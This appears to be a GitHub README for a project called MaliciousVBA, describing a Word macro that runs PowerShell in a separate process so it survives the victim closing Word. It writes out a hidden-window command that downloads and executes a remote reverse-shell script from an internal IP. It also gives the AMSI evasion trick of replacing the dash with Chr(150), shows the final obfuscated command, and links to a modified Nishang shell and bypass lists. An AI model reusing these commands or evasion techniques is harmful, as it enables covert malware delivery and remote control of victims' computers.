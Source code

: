# MaliciousVBA

I was reading various articles on how other go about bypassing AMSI using VBA. A great article can be found on this blog [codewhitesec](https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html).

Instead of trying to replicate that I chose a different route. I tried using the powershell command Invoke-Experession to download [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script.


## Running Powershell in VBA

In order to run powershell commands using VBA I have used the code published in Microsoft's Docs [here](https://docs.microsoft.com/en-us/office/vba/access/concepts/windows-api/determine-when-a-shelled-process-ends). The code is ideal for this project because it doesn't get flagged by the Antivirus or AMSI. It also spawns a seperate process. That's particularly helpful since our script won't be terminated if the victim closes Word. 

## Powershell Command 
The command I wanted to run in this macro is the following:

```sh
Powershell.exe -WindowStyle Hidden IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')
```
This command was flagged by AMSI as malicious. After experimenting a bit with variations of this command i found out that the AMSI was flagging -WindowStyle as malicious. Splitting the string using conventional amsi bypassing techinques ("-W" + "indo" + "wStyle") was not effective. Instead I started replacing the '-' symbol with ascii character codes of the various "-" symbols. Finally Chr(150) did the trick and my reverse shell script was executed. 

The final form of the powershell command was:
```sh
Chr(112) + "ower" + "shell.exe " + Chr(150) + "WindowStyle Hidden" + "  IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.246/1234567892222.ps1')"
```
## Powershell script (Invoke-PowerShellTcp)
I have slightly modified [Nikhil's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script in order to avoid being detected by AMSI for powershell. Once connection is established an amsi bypass script can be used.[Here is a list of AMSI bypass scripts that can be used by S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
